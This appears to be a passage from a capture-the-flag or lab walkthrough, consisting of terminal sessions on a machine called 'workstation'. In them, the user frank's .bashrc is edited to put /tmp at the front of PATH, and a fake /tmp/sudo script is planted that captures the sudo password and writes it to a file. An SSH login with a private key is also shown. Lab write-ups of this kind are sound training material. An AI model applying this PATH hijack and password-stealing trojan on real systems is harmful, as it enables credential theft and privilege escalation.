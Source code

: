 ```jsx
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
frank:x:1000:1000::/home/frank:/bin/bash

frank@workstation:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

frank@workstation:/tmp$ cd /home/frank
frank@workstation:~$ ls -lsa
total 32
4 drwxr-xr-x 1 frank frank 4096 Mar 14  2022 .
8 drwxr-xr-x 1 root  root  4096 Mar 14  2022 ..
0 lrwxrwxrwx 1 frank frank    9 Mar 14  2022 .bash_history -> /dev/null
4 -rw-r--r-- 1 frank frank  220 Feb 25  2020 .bash_logout
4 -rw-r--r-- 1 frank frank 3771 Feb 25  2020 .bashrc
4 drwx------ 2 frank frank 4096 Mar 14  2022 .cache
4 -rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
4 drwxr-xr-x 1 frank frank 4096 Mar 14  2022 .ssh
0 -rw-r--r-- 1 frank frank    0 Mar 14  2022 .sudo_as_admin_successful
frank@workstation:~$ nano .bashrc

[REDACTED] - MORE

# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

[REDACTED] - MORE

frank@workstation:~$ exit
```

`ssh -i id_rsa frank@10.10.62.113`

```jsx
frank@workstation:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

frank@workstation:~$ nano /tmp/sudo

#!/bin/bash
read -sp "[sudo] password for $USER: " passvar
echo $passvar > /tmp/frankpassword.txt
echo

frank@workstation:~$ chmod +x /tmp/sudo
frank@workstation:~$ source ~/.bashrc
frank@workstation:~$ exit

```
